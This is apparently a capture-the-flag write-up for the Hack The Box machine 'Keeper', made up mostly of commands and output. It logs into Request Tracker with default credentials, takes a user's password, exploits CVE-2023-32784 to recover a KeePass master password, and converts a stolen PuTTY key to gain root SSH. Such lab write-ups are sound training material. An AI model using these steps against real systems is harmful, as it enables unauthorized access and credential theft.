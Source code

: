 ## Recon

```
└─# nmap 10.10.11.227
Nmap scan report for 10.10.11.227
Host is up (3.3s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1234/tcp open  hotline


```

On port 80
`To raise an IT support ticket, please visit tickets.keeper.htb/rt/`
Replace in etc/hosts. and found a login : `http://tickets.keeper.htb/rt/`
As my research deepened, I discovered that the default credentials for RT are set as follows: the default username is 'root,' and the default password is 'password. ' on Google.
here i found users on dashboard:
```
http://tickets.keeper.htb/rt/Admin/Users/Modify.html?id=27
user:lnorgaard
extra info: Helpdesk Agent from Korsbæk
New user. Initial password set to Welcome2023!
```
Now with these informations, i will try ssh login
```
└─# ssh lnorgaard@10.10.11.227
The authenticity of host '10.10.11.227 (10.10.11.227)' can't be established.
ED25519 key fingerprint is SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w.
This key is not known by any other names
lnorgaard@10.10.11.227's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Sat Oct  7 16:38:10 2023 from 10.10.14.217
lnorgaard@keeper:~$

```
And here we go. logged in
```
└─# scp lnorgaard@10.10.11.227:passcodes.kdbx .
lnorgaard@10.10.11.227's password: 
passcodes.kdbx                                       100% 3630     3.9KB/s   00:00    
                                                                                       
┌──(root㉿1337)-[/home/…/CTFs/Boot2root/HacktheBox/Machines]
└─# ls
KeePassDumpFull.dmp  passcodes.kdbx
                                                                                       
┌──(root㉿1337)-[/home/…/CTFs/Boot2root/HacktheBox/Machines]
└─# file KeePassDumpFull.dmp 
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type

```
After some research, a vulnerability (CVE-2023-32784) was found, that would allow to dump the master password from keepass.dmp. However, the dumped password, **dgr*d med fl*de, was incomplete.**
Using the web-based KeePass client at https://app.keeweb.info/, I unlocked the .kdbx file with the password 'rødgrød med fløde'. Inside, I found the contents of a PuTTY PPK file for the root user:

```
┌──(root㉿1337)-[/home/…/CTFs/Boot2root/HacktheBox/Machines]
└─# nano puttyfile.ppk
                                                                                       
┌──(root㉿1337)-[/home/…/CTFs/Boot2root/HacktheBox/Machines]
└─# puttygen puttyfile.ppk -O private-openssh -o id_rsa
                                                                                       
┌──(root㉿1337)-[/home/…/CTFs/Boot2root/HacktheBox/Machines]
└─# ls                   
id_rsa  keepass_dump  KeePassDumpFull.dmp  passcodes.kdbx  puttyfile.ppk
                                                                                       
┌──(root㉿1337)-[/home/…/CTFs/Boot2root/HacktheBox/Machines]
└─# chmod 600 id_rsa       
                                                                                       
┌──(root㉿1337)-[/home/…/CTFs/Boot2root/HacktheBox/Machines]
└─# ls
id_rsa  keepass_dump  KeePassDumpFull.dmp  passcodes.kdbx  puttyfile.ppk
└─# ssh root@10.10.11.227 -i id_rsa 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Sat Oct  7 15:05:45 2023 from 10.10.14.125
root@keeper:~# 
root@keeper:~# whoami
root
root@keeper:~# ls
root.txt  RT30000.zip  SQL
root@keeper:~# cat root.txt 
23ba91a1fa453d466dcf3d89244623a3

```